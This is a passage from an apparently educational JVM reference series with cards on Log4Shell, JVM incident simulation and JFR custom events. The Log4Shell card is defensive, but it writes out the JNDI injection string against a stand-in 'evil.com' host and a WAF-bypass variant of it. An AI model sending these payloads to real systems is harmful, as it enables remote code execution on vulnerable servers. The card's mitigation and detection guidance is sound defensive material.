**Where this analogy breaks down:** real mail rooms do not automatically execute the contents of packages. The critical insight is that JVM's classloading IS code execution - loading a class runs its static initializer. There is no "safe inspection" of a loaded class.

---

### 🧩 Components

- **Log4j message lookup:** Feature that resolves `${...}` expressions in log messages. Intended for variable substitution. Fatal when combined with JNDI.
- **JNDI (Java Naming and Directory Interface):** Lookup API for naming services (LDAP, RMI, DNS). Returns Java objects from directory servers.
- **Remote classloading:** JVM loads classes from URLs specified in JNDI responses. The loaded class's static initializer executes.
- **Serialization gadget chains:** Even without remote classloading, JNDI can return serialized objects that exploit gadget chains in classpath libraries.
- **JDK mitigations:** `trustURLCodebase=false` (JDK 8u191+) disables remote class loading from JNDI. Does not prevent deserialization attacks.

```text
Log4Shell attack chain:
  1. Attacker sends: ${jndi:ldap://evil.com/x}
  2. Log4j resolves ${...} -> JNDI lookup
  3. JVM contacts evil.com LDAP server
  4. LDAP responds: classURL=http://evil.com/X.class
  5. JVM loads X.class from attacker URL
  6. X.class static initializer = RCE

  Mitigations (layers):
    - Upgrade Log4j (removes lookup feature)
    - -Dlog4j2.formatMsgNoLookups=true
    - Remove JndiLookup.class from JAR
    - Network: block outbound LDAP/RMI
    - JDK 8u191+: trustURLCodebase=false
```

```mermaid
sequenceDiagram
    participant A as Attacker
    participant App as Java Application
    participant Log as Log4j
    participant LDAP as Attacker LDAP
    participant CL as ClassLoader
    A->>App: HTTP header: ${jndi:ldap://evil/x}
    App->>Log: log.info("User-Agent: " + header)
    Log->>Log: resolve ${jndi:...}
    Log->>LDAP: JNDI lookup: ldap://evil/x
    LDAP-->>Log: response: load class from URL
    Log->>CL: load class from attacker URL
    CL->>CL: execute static initializer = RCE
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Log4Shell was a vulnerability in the Log4j logging library that allowed attackers to run arbitrary code on any Java server by sending a specially crafted string in any logged input. It affected virtually every Java application using Log4j 2.0-2.14.

**Level 2 - How to use it (defensively):** Upgrade Log4j to 2.17.1+. Set `-Dlog4j2.formatMsgNoLookups=true` as immediate mitigation. Audit all logging paths for user-controlled input that reaches Log4j. Block outbound LDAP/RMI at network level.

**Level 3 - How it works:** Log4j's message formatter resolves expressions like `${jndi:ldap://...}`. This triggers a JNDI lookup to an attacker-controlled server. JNDI's design allows the server to respond with either a remote class reference (loaded and executed) or a serialized object (deserialized, potentially triggering gadget chains). The combination of "log any input" + "resolve expressions" + "JNDI loads code" creates the RCE chain.

**Level 4 - Production mastery:** The deeper lesson: JVM features compose into attack surfaces. JNDI alone is not dangerous. Message lookup alone is not dangerous. But JNDI + message lookup + user input = RCE. Defense-in-depth requires: (1) input never reaches dangerous features (validation), (2) dangerous features are disabled when not needed (JNDI restrictions), (3) network prevents exploitation even if code is vulnerable (outbound filtering), (4) runtime protection (RASP/agent-based blocking of suspicious classloading patterns).

---

### ⚙️ How It Works

**Phase 1 - Injection:** Attacker places JNDI expression in any field that gets logged: HTTP headers, query params, form fields, error messages, usernames.

**Phase 2 - Trigger:** Application logs the input. Log4j's MessagePatternConverter resolves `${jndi:...}` expressions during formatting.

**Phase 3 - Lookup:** JNDI connects to attacker's LDAP/RMI server. Server responds with either a Reference (pointing to remote class URL) or serialized Java object.

**Phase 4 - Execution:** JVM loads class from attacker URL (if trustURLCodebase=true). Or deserializes the object, triggering gadget chain for RCE.

```text
Defense layers (all should be present):
  Layer 1: Upgrade Log4j to 2.17.1+
  Layer 2: WAF blocks ${jndi patterns
  Layer 3: Network: no outbound LDAP/RMI
  Layer 4: JDK 8u191+ (trustURLCodebase=false)
  Layer 5: Minimal classpath (no gadget libs)
  Layer 6: Runtime agent (block suspicious CL)

  Even ONE layer prevents full exploitation.
  Defense-in-depth = multiple layers.
```

```mermaid
flowchart TD
    A[Attacker Input] --> B{Log4j >= 2.17?}
    B -->|Yes| C[SAFE: no lookup]
    B -->|No| D{formatMsgNoLookups?}
    D -->|Yes| C
    D -->|No| E[JNDI lookup triggered]
    E --> F{Network blocks outbound LDAP?}
    F -->|Yes| C
    F -->|No| G{JDK 8u191+ trustURLCodebase=false?}
    G -->|Yes| H[No remote class - try deser]
    G -->|No| I[RCE via remote classloading]
    H --> J{Gadget classes on classpath?}
    J -->|No| C
    J -->|Yes| K[RCE via deserialization gadget]
```

---

### 🚨 Failure Modes

**Failure 1 - Unpatched Transitive Dependency:**

**Symptom:** Application patched its direct Log4j dependency but a transitive dependency (embedded in another library's shaded JAR) still contains vulnerable version.

**Root cause:** Java's JAR model allows multiple Log4j versions. Shaded/relocated classes bypass version management.

**Diagnostic:**

```bash
# Find ALL Log4j instances in classpath:
find /app -name "log4j-core*.jar" -o \
  -name "*log4j*" | xargs unzip -l | \
  grep "JndiLookup.class"
# Also check shaded JARs:
find /app -name "*.jar" -exec \
  unzip -l {} \; | grep "JndiLookup"
```

**Fix:** Remove `JndiLookup.class` from ALL JARs: `zip -d log4j-core*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`. Upgrade transitives.

**Failure 2 - Deserialization Bypass:**

**Symptom:** JDK 8u191+ deployed (trustURLCodebase=false). Team believes they are safe. Still exploited via deserialization gadget chain.

**Root cause:** JNDI can return serialized objects without remote classloading. If classpath contains gadget libraries (Commons Collections, Spring, etc.), deserialization achieves RCE.

**Diagnostic:**

```bash
# Check for known gadget libraries:
find /app -name "commons-collections*.jar" \
  -o -name "spring-core*.jar" \
  -o -name "groovy*.jar"
# These enable deserialization gadgets
```

**Fix:** Upgrade Log4j (removes lookup entirely). Remove unnecessary gadget libraries. Use serialization filters (JEP 290, JDK 9+).

---

### 🔬 Production Reality

The Log4Shell incident revealed that most organizations had no inventory of which services used Log4j, which version, and whether it was a direct or transitive dependency. The median time-to-patch across the industry was 17 days (Mandiant data). Organizations with software bill-of-materials (SBOM) and centralized dependency management patched in hours. The lesson: JVM dependency management is a security capability, not just a build concern.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | Log4j (patched)   | Logback/SLF4J  | JDK logging       |
| --------------- | ----------------- | -------------- | ----------------- |
| Lookup feature  | Removed in 2.17+  | Never had JNDI | No lookups        |
| Performance     | High (async)      | High (async)   | Moderate          |
| Attack surface  | Reduced (patched) | Minimal        | Minimal           |
| Features        | Rich (appenders)  | Rich           | Basic             |
| SBOM visibility | Widespread        | Widespread     | Built-in (no dep) |

---

### ⚡ Decision Snap

**IMMEDIATE ACTIONS (any Log4j 2.x < 2.17):**

- Upgrade to 2.17.1+ (first priority).
- If cannot upgrade: remove JndiLookup.class from JAR.
- Block outbound LDAP/RMI at network perimeter.

**LONG-TERM DEFENSES:**

- Maintain SBOM for all services (know your dependencies).
- Minimize classpath (fewer gadget libraries = smaller surface).
- JDK 9+: serialization filters (JEP 290) restrict deserialization.

**ARCHITECTURAL LESSONS:**

- Never log unsanitized user input with expression-resolving formatters.
- Defense-in-depth: assume any single layer can be bypassed.

---

### ⚠️ Top Traps

| #   | Misconception                   | Reality                                                                                                     |
| --- | ------------------------------- | ----------------------------------------------------------------------------------------------------------- |
| 1   | "We do not use Log4j directly"  | Check transitive dependencies. Most Java apps have Log4j-core transitively via frameworks.                  |
| 2   | "JDK 8u191+ is fully protected" | trustURLCodebase=false blocks remote classes but deserialization gadgets still work.                        |
| 3   | "WAF blocks ${jndi: strings"    | Trivial bypasses: `${${lower:j}ndi:...}`, URL encoding, Unicode. WAF is one layer, not sufficient alone.    |
| 4   | "This only affects web apps"    | Any JVM process logging external input: Kafka consumers, batch jobs, CLI tools. Not just HTTP servers.      |
| 5   | "We patched, we are done"       | Next JNDI/deserialization CVE will come. Architectural defenses (network, SBOM, minimal classpath) persist. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-062 JVM Security Manager - Deprecated Alternatives - understand JVM security boundaries (and their limitations)
- JVM-073 Java Module System (JPMS) and ClassLoader - understand classloading as attack vector

**THIS:** JVM-086 Log4Shell and JVM Attack Surface (2021)

**Next steps:**

- JVM-092 JVM Compliance - FIPS, FedRAMP Considerations - security compliance framework context
- JVM-089 Unified JVM Logging (-Xlog) - safe JVM-level logging alternative

---

**The Surprising Truth:**

The Log4Shell vulnerability existed in Log4j since 2013 (version 2.0-beta9). It was publicly exploitable for 8 years before discovery. The lookup feature was documented and intentional - not a bug in the traditional sense. This demonstrates that "features" in widely-used libraries can be more dangerous than bugs, because they are by design, well-tested, and nobody reviews documented behavior as a vulnerability. The attack was not a code error - it was a design error in the threat model (assuming logged strings are not attacker-controlled).

**Further Reading:**

- CVE-2021-44228: Apache Log4j2 JNDI features remote code execution
- Alvaro Munoz, Oleksandr Mirosh, "A Journey from JNDI/LDAP Manipulation to Remote Code Execution" (BlackHat 2016)
- JEP 290: Filter Incoming Serialization Data (JDK 9)

**Revision Card:**

1. Log4Shell chain: user input -> log message -> JNDI lookup -> remote classloading -> RCE. Fix: upgrade Log4j 2.17.1+.
2. JDK mitigations are incomplete. trustURLCodebase blocks remote classes but not deserialization gadgets. Upgrade the library.
3. Architectural lesson: SBOM, minimal classpath, outbound network filtering. These survive the next zero-day.

**BAD:**

```java
// Logging user input with vulnerable Log4j
// (Log4j 2.0 - 2.14.1)
String userAgent = request.getHeader("User-Agent");
log.info("Request from: " + userAgent);
// Attacker sends: ${jndi:ldap://evil.com/rce}
// Result: Remote Code Execution
```

**GOOD:**

```java
// Log4j 2.17.1+ (lookups disabled by default)
// + parameterized logging (no string concat)
String userAgent = request.getHeader("User-Agent");
log.info("Request from: {}", userAgent);
// Even if old Log4j: parameterized logging
// does not resolve lookups in parameters
// + network: block outbound LDAP/RMI
// + JDK serialization filters active
```

---

---

# JVM-087 JVM Production Incident Simulation

**TL;DR** - Deliberately injecting JVM failure conditions (OOM, GC storms, thread leaks) in controlled environments builds muscle memory for diagnosing real incidents, turning panic-driven debugging into systematic triage.

---

### 🔥 Problem Statement

A production JVM service enters a state the team has never seen: 40-second GC pauses, 95% CPU in GC, heap at 99.8% utilization. The on-call engineer has read about GC tuning but never experienced a live GC storm. They spend 45 minutes searching documentation while the service degrades. Had the team practiced this exact scenario in a controlled environment - intentionally creating a GC storm and practicing the diagnostic sequence - the response time would be 5 minutes. Incident simulation transforms theoretical knowledge into executable muscle memory.

---

### 📜 Historical Context

Chaos engineering (Netflix Chaos Monkey, 2011) popularized deliberately breaking systems to improve resilience. JVM-specific chaos (injecting memory pressure, thread starvation, GC failures) emerged from SRE teams at scale. Google's DiRT (Disaster Recovery Testing) program includes JVM-specific failure scenarios. The practice of "game days" for JVM incidents became standard at organizations running >100 JVM instances where the probability of encountering every failure mode is near-certain over a year.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Diagnosis speed is trained, not innate:** Reading about GC pauses does not build the neural pathways needed for rapid triage. Only hands-on practice with real symptoms builds speed.
2. **Every JVM failure has a diagnostic signature:** GC storms, thread leaks, metaspace exhaustion, native memory leaks - each produces distinct metric patterns. Learning to recognize these patterns requires seeing them.
3. **Controlled failure reveals tooling gaps:** Simulated incidents expose missing monitoring, incorrect alerts, or tools that do not work under pressure (e.g., jcmd timing out during heap exhaustion).

**DERIVED DESIGN:**

These invariants force: (1) regular practice sessions with injected failures, (2) a catalog of reproducible failure scenarios with known diagnostic paths, (3) post-simulation review comparing response time to target.

**THE TRADE-OFF:**

**Gain:** 5-10x faster incident response. Confidence under pressure. Team discovers tooling gaps before real incidents.

**Cost:** Engineering time for simulation setup. Risk if accidentally run in production. Requires isolated environment.

---

### 🧠 Mental Model

> JVM incident simulation is like a fire drill. Nobody expects to learn firefighting during an actual fire. Regular drills build automatic responses: check oxygen (heap), find exits (thread dumps), use extinguisher (jcmd commands). The drill is not about the fire itself but about making the RESPONSE automatic.

- "Fire drill" -> incident simulation session
- "Check oxygen" -> check heap/GC state (jstat, GC logs)
- "Find exits" -> capture thread dumps (jcmd Thread.print)
- "Use extinguisher" -> apply fix (restart, heap dump, flag change)
- "Automatic response" -> muscle memory for diagnostic sequence

**Where this analogy breaks down:** real fires have one correct action (evacuate). JVM incidents have many possible root causes requiring differential diagnosis. The simulation must cover multiple scenarios, not just one drill.

---

### 🧩 Components

- **Memory pressure injection:** Allocate byte arrays to approach OOM. Tests heap dump capture and GC log analysis.
- **GC storm simulation:** Allocate and retain objects in specific patterns to trigger prolonged Full GC. Tests GC tuning response.
- **Thread leak injection:** Create threads without termination. Tests thread dump analysis and identifies limit failures.
- **CPU hotspot simulation:** Spin loops or compilable-intensive code. Tests CPU profiling workflow (async-profiler, JFR).
- **Metaspace exhaustion:** Dynamic class generation (CGLib/ByteBuddy in loops). Tests metaspace monitoring and diagnosis.

```text
Incident simulation catalog:
  Scenario 1: GC Storm
    Inject: allocate 90% heap in long-lived objects
    Symptom: p99 latency spikes, GC time > 50%
    Practice: jstat, GC logs, heap dump, identify
    Time target: 5min from alert to root cause

  Scenario 2: Thread Leak
    Inject: create 100 threads/sec, never terminate
    Symptom: thread count grows, eventually OOM
    Practice: jcmd Thread.print, identify creator
    Time target: 3min to identify leak source

  Scenario 3: Native Memory Leak
    Inject: Direct ByteBuffer allocation without release
    Symptom: RSS grows, heap stable, OOM kill
    Practice: NMT diff, jemalloc profile
    Time target: 10min (harder to diagnose)
```

```mermaid
flowchart TD
    A[Simulation Catalog] --> B[GC Storm]
    A --> C[Thread Leak]
    A --> D[Native Memory Leak]
    A --> E[Metaspace Exhaustion]
    A --> F[CPU Hotspot]
    B --> G[Practice: jstat + GC logs + heap dump]
    C --> H[Practice: thread dump + creator ID]
    D --> I[Practice: NMT + jemalloc + RSS]
    E --> J[Practice: jcmd + class histogram]
    F --> K[Practice: async-profiler + JFR]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Deliberately causing JVM problems (memory leaks, GC issues, thread exhaustion) in a test environment so the team practices diagnosing and fixing them before encountering them in production.

**Level 2 - How to use it:** Schedule monthly "game day" sessions. Each session: inject one failure type, time the team's response, document the diagnostic path, identify tooling gaps. Rotate scenarios to cover all failure modes over a quarter.

**Level 3 - How it works:** Create a simple Java application that can be instructed (via REST endpoint or flag) to exhibit specific pathological behavior: allocate-and-retain (heap pressure), create-threads-forever (thread leak), load-classes-forever (metaspace). Deploy it with production-equivalent monitoring. Run the scenario. Practice the full path from alert to diagnosis to resolution.

**Level 4 - Production mastery:** Advanced simulations inject failures into REAL pre-production environments under synthetic load. This tests not just JVM diagnosis but the entire incident response chain: monitoring detects the anomaly, alerting fires correctly, runbook provides accurate steps, team executes within SLA. Measure time-to-detect, time-to-diagnose, and time-to-resolve. Track improvement over quarters.

---

### ⚙️ How It Works

**Phase 1 - Scenario Design:** Choose failure mode. Define injection mechanism. Set expected symptoms and correct diagnostic path.

**Phase 2 - Environment Setup:** Deploy target application with production-equivalent monitoring (Prometheus, Grafana, JFR). Ensure all diagnostic tools available (jcmd, jmap, async-profiler).

**Phase 3 - Injection:** Trigger the failure condition. Start timer. Team responds as if real incident.

**Phase 4 - Triage and Resolution:** Team identifies root cause using available tools. Applies fix or mitigation. Timer stops at correct diagnosis.

**Phase 5 - Retrospective:** Compare actual response path to optimal. Identify delays, wrong turns, missing tools.

```text
Injection patterns (Java code):

// GC Storm:
List<byte[]> leak = new ArrayList<>();
while (running) {
    leak.add(new byte[1024 * 1024]); // 1MB
    Thread.sleep(100); // slow fill
}

// Thread Leak:
while (running) {
    new Thread(() -> {
        try { Thread.sleep(Long.MAX_VALUE); }
        catch (InterruptedException e) {}
    }).start();
    Thread.sleep(50);
}

// Metaspace Exhaustion:
while (running) {
    ClassPool pool = ClassPool.getDefault();
    pool.makeClass("Gen" + counter++).toClass();
}
```

```mermaid
sequenceDiagram
    participant I as Injector
    participant App as Target JVM
    participant M as Monitoring
    participant T as Team
    I->>App: trigger GC storm
    App->>M: metrics degrade (GC time rises)
    M->>T: alert fires (p99 latency > 1s)
    T->>App: jstat -gcutil <pid> 1000
    T->>T: identify: Old Gen 99%, Full GC 30s
    T->>App: jmap -dump:live,file=heap.hprof
    T->>T: analyze heap dump - find retainer
    T->>T: ROOT CAUSE identified (timer stops)
```

---

### 🚨 Failure Modes

**Failure 1 - Simulation Escapes to Production:**

**Symptom:** Injection code activated in production environment. Real service degradation.

**Root cause:** Feature flag misconfiguration, wrong deployment target, or injection endpoints not secured.

**Diagnostic:**

```bash
# Check if injection endpoint exists in prod:
curl -s http://prod-service:8080/chaos/status
# If responds: injection code deployed to prod!
```

**Fix:** Injection code NEVER in production builds. Use separate artifact/profile. Secure endpoints with auth. Build pipeline gates prevent chaos code in prod.

**Failure 2 - Simulation Does Not Match Reality:**

**Symptom:** Team performs well in simulation but fails in real incident. Simulation environment too different from production.

**Root cause:** Simulation uses toy heap sizes (256MB vs 32GB), different GC algorithm, missing production monitoring.

**Diagnostic:** Compare simulation environment specs to production. Every parameter should match: heap size, GC algorithm, monitoring stack, tool availability.

**Fix:** Use production-equivalent environments. Same JVM flags, same heap size (or proportional), same monitoring. Only the load and data are synthetic.

---

### 🔬 Production Reality

Teams that run monthly JVM incident simulations report 60-70% reduction in mean-time-to-diagnose for real incidents (based on published case studies from Netflix and Uber engineering blogs). The key insight is not technical - it is psychological. Engineers who have seen a GC storm before do not panic. They execute a diagnostic sequence from memory: jstat first (confirms GC issue), GC log (identifies which GC phase), heap dump (finds retainer). This sequence takes 5 minutes when practiced vs 45 minutes when improvised under pressure.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | Game Day (manual)    | Automated chaos     | Tabletop exercise |
| -------------- | -------------------- | ------------------- | ----------------- |
| Realism        | High                 | High                | Low (theoretical) |
| Cost           | Team time (half day) | Setup + infra       | Low (1-2 hours)   |
| Skill building | High (hands-on)      | Moderate (response) | Low (discussion)  |
| Risk           | Moderate (escape)    | Higher (automated)  | None              |
| Frequency      | Monthly              | Continuous          | Weekly possible   |

---

### ⚡ Decision Snap

**RUN FULL SIMULATION WHEN:**

- New team members have not experienced real JVM incidents.
- Incident response time exceeds SLA targets.
- New JVM version/GC algorithm deployed (team needs familiarity).

**USE TABLETOP WHEN:**

- Cannot afford environment for full simulation.
- Want to verify runbook accuracy without running tools.

**IMPLEMENT AUTOMATED CHAOS WHEN:**

- Fleet size justifies investment. Already have incident response maturity.
- Want continuous validation of monitoring and alerting.

---

### ⚠️ Top Traps

| #   | Misconception                      | Reality                                                                                                                |
| --- | ---------------------------------- | ---------------------------------------------------------------------------------------------------------------------- |
| 1   | "Reading docs is sufficient"       | Reading about GC storms and diagnosing one under pressure are completely different skills. Practice is irreplaceable.  |
| 2   | "One simulation covers all"        | Each failure mode has distinct symptoms. Need to cycle through: heap, GC, threads, native, metaspace, CPU.             |
| 3   | "Simulation needs production data" | Synthetic data with realistic volume is sufficient. Never use real customer data in chaos environments.                |
| 4   | "Only senior engineers benefit"    | Juniors benefit MOST. Seniors have seen real incidents. Juniors need simulated experience before their first real one. |
| 5   | "Simulation is too risky"          | Risk is controlled (isolated env). The REAL risk is untrained teams encountering their first GC storm in production.   |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-041 jcmd - The Swiss Army Knife - primary tool used during simulations
- JVM-060 Memory Leak Diagnosis Workflow - diagnosis sequence practiced in simulations

**THIS:** JVM-087 JVM Production Incident Simulation

**Next steps:**

- JVM-098 Build a JVM Dashboard - Phase 3 (Diagnosis) - build monitoring that supports incident response
- JVM-095 JVM Fleet Observability - Key Metrics - fleet metrics needed for incident detection

---

**The Surprising Truth:**

The most valuable outcome of JVM incident simulation is not the technical skill - it is discovering that your monitoring does not work when you need it. Teams consistently find that: (1) jcmd is not installed in production containers, (2) heap dumps cannot be captured because there is no disk space, (3) JFR is not configured in production flags, (4) async-profiler requires ptrace which is disabled by default in containers. Fixing these tooling gaps BEFORE a real incident is more valuable than any amount of GC theory.

**Further Reading:**

- Netflix Tech Blog: "Chaos Engineering: the history, principles, and practice" (2017)
- Google SRE Book, Ch. 28: "Accelerating SREs to On-Call and Beyond"
- Gremlin.com: "JVM Attack Scenarios" - framework for JVM chaos

**Revision Card:**

1. Practice > theory for incident response. Monthly simulation sessions with injected JVM failures.
2. Diagnostic sequence (memorize): jstat -> GC log -> heap dump -> thread dump. Under 5 minutes with practice.
3. Side benefit: discover tooling gaps (jcmd missing, no disk for heap dump, JFR not configured in prod).

**BAD:**

```java
// "We read the JVM tuning guide"
// Team's first GC storm in production:
// t+0: alert fires
// t+15min: "what tool do we use?"
// t+25min: "jcmd not in container"
// t+35min: "heap dump needs 20GB disk (none)"
// t+45min: restart and hope
// Total: 45min, no root cause identified
```

**GOOD:**

```java
// Monthly simulation - team practiced this:
// t+0: alert fires (simulation or real - same)
// t+1min: jstat -gcutil (confirm GC storm)
// t+2min: GC log (identify Full GC frequency)
// t+3min: jmap -dump (retainer analysis)
// t+5min: root cause identified
// Practiced 6 times. Response is automatic.
// Tools verified present in container image.
```

---

---

# JVM-088 JFR Custom Events and Continuous Profiling

**TL;DR** - JDK Flight Recorder (JFR) custom events extend built-in profiling with application-specific metrics, enabling always-on production profiling at <1% overhead that correlates business operations with JVM behavior.

---

### 🔥 Problem Statement

A service experiences periodic latency spikes. Standard JFR events show: GC pauses are normal, thread contention is low, CPU is available. The problem is invisible to JVM-level instrumentation because it is application-specific: a cache miss triggers an expensive recomputation. Without custom JFR events that track "cache hit/miss" and "recomputation duration," the team cannot correlate the latency spike to its root cause. They need to add application-level profiling that integrates with JFR's always-on, low-overhead recording infrastructure.

---

### 📜 Historical Context

JFR was proprietary (Oracle JDK, commercial license required) until JDK 11 (JEP 328) opened it to all OpenJDK builds. Custom events API (jdk.jfr package) shipped in JDK 9. Before JFR, application-level profiling required external APM agents (New Relic, DataDog) with higher overhead (3-5%) or custom metrics frameworks (Micrometer, Dropwizard Metrics) that lack correlation with JVM internals. JFR custom events provide the "missing link" - application metrics stored in the same recording as GC, JIT, threading, and I/O events.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Always-on requires near-zero overhead:** JFR's design budget is <1% CPU overhead for production recording. Custom events must follow the same efficiency discipline.
2. **Correlation requires co-location:** To correlate "slow request" with "GC pause" or "compilation," both events must be in the same recording with synchronized timestamps.
3. **Events are structured data, not log lines:** JFR events have typed fields, automatic timestamps, stack traces, and thread association. They are queryable, not just readable.

**DERIVED DESIGN:**

These invariants mean: (1) custom events use the same fixed-cost recording mechanism as built-in events, (2) events integrate natively with JDK Mission Control (JMC) for visualization, (3) events can be streamed in real-time (JDK 14+ JFR Event Streaming API) for live dashboards.

**THE TRADE-OFF:**

**Gain:** Application-level profiling with <1% overhead. Correlated with JVM internals in one file. Always-on in production.

**Cost:** API learning curve. Events must be well-designed (cardinality, field types). JMC/analysis tooling investment.

---

### 🧠 Mental Model

> JFR is a flight data recorder (black box) for the JVM. Built-in events record engine data (GC, JIT, threads). Custom events let you add BUSINESS data to the same recorder: "passenger boarded" (request received), "meal served" (response sent), "turbulence encountered" (cache miss). Now you can correlate business events with engine events on the same timeline.

- "Flight data recorder" -> JFR recording infrastructure
- "Engine data" -> built-in JVM events (GC, JIT, threading)
- "Business data" -> custom application events
- "Same recorder" -> single .jfr file with correlated timestamps
- "Same timeline" -> synchronized analysis in JMC

**Where this analogy breaks down:** flight recorders are read post-crash. JFR can be read continuously (JFR streaming, JDK 14+) and in real-time. Also, flight data is passive recording, while JFR custom events require explicit instrumentation (you choose what to record).

---

### 🧩 Components

- **jdk.jfr.Event:** Base class for custom events. Extend it, annotate fields, commit at operation end.
- **@Label, @Description, @Category:** Annotations for JMC display. Category determines tree position in JMC.
- **@Threshold:** Minimum duration to record (filters noise). E.g., `@Threshold("10 ms")` - only record operations > 10ms.
- **@StackTrace:** Whether to capture call stack (expensive for high-frequency events). Disable for hot-path events.
- **JFR Event Streaming (JDK 14+):** `RecordingStream` API for real-time consumption of events in-process.
- **jfr command-line tool:** `jfr print --events MyEvent recording.jfr` - filter and display custom events.

```text
Custom JFR Event lifecycle:
  1. Define event class (extends jdk.jfr.Event)
  2. At operation start: event.begin()
  3. Set fields (context: request ID, etc.)
  4. At operation end: event.commit()
  5. JFR writes to ring buffer (<1% overhead)
  6. Analyze: JMC, jfr CLI, or streaming API

Cost model:
  Event disabled (no recording): ~0 ns (JIT inlines check)
  Event enabled, not committed: allocation + field set
  Event committed: ring buffer write (~100ns)
  Total overhead at 10K events/s: < 0.1% CPU
```

```mermaid
flowchart LR
    A[Application Code] --> B[event.begin]
    B --> C[Execute Operation]
    C --> D[Set Fields]
    D --> E[event.commit]
    E --> F{Recording Active?}
    F -->|Yes| G[Write to Ring Buffer]
    F -->|No| H[No-op - zero cost]
    G --> I[JFR File / Stream]
    I --> J[JMC Analysis]
    I --> K[Real-time Stream]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** JFR lets you define your own profiling events (cache misses, database queries, business operations) that are recorded alongside JVM events (GC, JIT, threads) in a single low-overhead recording - always safe to run in production.

**Level 2 - How to use it:** Create a class extending `jdk.jfr.Event`. Add annotated fields. Call `begin()`, do work, set fields, call `commit()`. Start recording: `jcmd <pid> JFR.start`. Analyze with JMC or `jfr print`.

**Level 3 - How it works:** JFR uses thread-local ring buffers for near-zero contention. When an event is committed, it is serialized into the thread's local buffer. Buffers are periodically flushed to a global recording file. If recording is not active, the JIT compiles the event code to a no-op (zero overhead when disabled). The `@Threshold` annotation means the commit is skipped for fast operations (no allocation, no write).

**Level 4 - Production mastery:** Continuous profiling in production: JFR recording always active with `maxsize=500m` (ring buffer, overwrites oldest). When incident occurs: `jcmd <pid> JFR.dump filename=incident.jfr` captures the last N minutes of all events (custom + built-in). Combine with JFR Event Streaming (JDK 14+) for real-time export to monitoring systems (Prometheus, Grafana). This replaces APM agents for Java-specific metrics with lower overhead.

---

### ⚙️ How It Works

**Phase 1 - Event Class Loading:** At class load time, JFR registers the event type. If no recording is active, event methods become no-ops via JIT.

**Phase 2 - Event Begin:** `event.begin()` records timestamp (nanosecond precision). Minimal cost: single rdtsc instruction.

**Phase 3 - Commit Decision:** `event.commit()` checks: (a) recording active? (b) duration >= threshold? If both true, serialize event to thread-local buffer.

**Phase 4 - Buffer Flush:** Background thread periodically flushes thread-local buffers to the recording file or streaming consumers.

```text
JFR internal architecture:
  Thread 1: [event][event][event] --> flush
  Thread 2: [event][event] -------> flush
  Thread N: [event] --------------> flush
                                      |
                                      v
                              [Global Ring Buffer]
                                      |
                         +------------+--------+
                         |                     |
                   [.jfr file]       [StreamingAPI]
                   (persistent)      (real-time)
```

```mermaid
sequenceDiagram
    participant App as Application Thread
    participant Evt as JFR Event
    participant TLB as Thread-Local Buffer
    participant GRB as Global Ring Buffer
    participant Out as .jfr File / Stream
    App->>Evt: begin() (rdtsc)
    App->>App: execute operation
    App->>Evt: commit()
    Evt->>Evt: check recording + threshold
    Evt->>TLB: serialize event
    Note over TLB: batch accumulates
    TLB->>GRB: periodic flush
    GRB->>Out: write to file or stream
```

---

### 🚨 Failure Modes

**Failure 1 - High-Cardinality Event Fields:**

**Symptom:** JFR recording file grows to GB in minutes. Disk fills. Recording stops.

**Root cause:** Custom event has a String field with unique values per event (request ID, user ID). Each unique string stored in JFR's constant pool.

**Diagnostic:**

```bash
# Check recording size growth rate:
jcmd <pid> JFR.dump filename=check.jfr
ls -la check.jfr
# If growing > 10MB/min: cardinality issue
# Use jfr summary to find event counts:
jfr summary check.jfr
```

**Fix:** Remove high-cardinality String fields from events. Use numeric IDs. Or set `maxsize` to bound recording: `-XX:StartFlightRecording=maxsize=500m`.

**Failure 2 - Stack Trace Overhead on Hot Path:**

**Symptom:** Enabling custom events causes 3-5% CPU overhead instead of expected <1%.

**Root cause:** Custom event has `@StackTrace(true)` (default) on an event committed 100K+ times per second. Each commit captures full stack trace.

**Diagnostic:**

```bash
# Profile the profiler:
# async-profiler shows JFR stack walking
# in hot path
asprof -e cpu -d 30 <pid> | grep "getStackTrace"
```

**Fix:** Add `@StackTrace(false)` to high-frequency events. Use `@Threshold("1 ms")` to filter sub-millisecond operations. Reserve stack traces for rare/slow events only.

---

### 🔬 Production Reality

Organizations adopting JFR continuous profiling (always-on recording with bounded ring buffer) report it replaces 60-80% of APM agent functionality at <1% overhead vs 3-5% for traditional agents. The key pattern: custom events for the 5-10 most important application operations (HTTP request handling, database query, cache lookup, external service call) plus built-in JFR events for JVM behavior. JFR Event Streaming (JDK 14+) exports metrics to Prometheus in real-time, eliminating the need for both an APM agent AND JFR.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | JFR Custom Events | APM Agents         | Micrometer Metrics |
| -------------- | ----------------- | ------------------ | ------------------ |
| Overhead       | <1%               | 3-5%               | <0.5% (counters)   |
| Correlation    | Full (JVM + app)  | Partial            | None (app-only)    |
| Always-on safe | Yes (production)  | Yes (designed for) | Yes                |
| Rich context   | Stack, thread, ts | Distributed trace  | Aggregated only    |
| Tooling        | JMC, jfr CLI      | Vendor dashboard   | Prometheus/Grafana |

---

### ⚡ Decision Snap

**USE JFR CUSTOM EVENTS WHEN:**

- Need correlation between app operations and JVM behavior.
- APM agent overhead is unacceptable.
- Diagnosing issues that cross app/JVM boundary.

**USE APM AGENT WHEN:**

- Distributed tracing across services is primary need.
- Team already invested in APM vendor ecosystem.
- Custom JFR development effort unjustified.

**USE METRICS (Micrometer) WHEN:**

- Only need aggregated statistics (rates, percentiles).
- No need for per-event detail or stack traces.
- Alerting on thresholds is the primary use case.

---

### ⚠️ Top Traps

| #   | Misconception                      | Reality                                                                                               |
| --- | ---------------------------------- | ----------------------------------------------------------------------------------------------------- |
| 1   | "JFR is only for diagnostics"      | JFR with streaming API replaces metrics export. Custom events ARE your metrics source.                |
| 2   | "Custom events are expensive"      | When recording is off, JIT eliminates all event code (zero cost). When on: ~100ns per commit.         |
| 3   | "Need commercial JDK for JFR"      | JFR is free in all OpenJDK builds since JDK 11 (JEP 328). No license required.                        |
